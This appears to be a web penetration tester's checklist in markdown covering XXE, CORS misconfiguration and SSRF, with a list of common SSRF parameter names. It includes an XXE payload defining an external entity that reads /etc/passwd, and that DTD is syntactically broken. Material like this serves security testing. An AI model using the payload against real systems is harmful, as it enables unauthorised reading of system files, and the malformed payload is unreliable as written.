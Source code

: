 # XML injection

- [ ]  change content type to `text/xml` and inject XML entity with DTD

```
<?xml version="1.1" encoding="ISO 8859 1"?>
<!DOCTYPE DK [<!ELEMENT DK ANY [<!ENTITY dk9510 SYSTEM "file:///etc/passwd" >]> <DK>&dk9510;</]

```

- [ ]  blind XXE out of band interaction
[[XXE-injection]]

# Cross Origin Resource Sharing

- [ ]  Errors parsing Origin headers
- [ ]  Whitelisted Null Origin value [[CORS-Cross-origin-resource-sharing]]

# SSRF

## Common injection parameter

```
"access=",
"admin=",
"dbg=",
"debug=",
"edit=",
"grant=",
"test=",
"alter=",
"clone=",
"create=",
"delete=",
"disable=",
"enable=",
"exec=",
"execute=",
"load=",
"make=",
"modify=",
"rename=",
"reset=",
"shell=",
"toggle=",
"adm=",
"root=",
"cfg=",
"dest=",
"redirect=",
"uri=",
"path=",
"continue=",
"url=",
"window=",
"next=",
"data=",
"reference=",
"site=",
"html=",
"val=",
"validate=",
```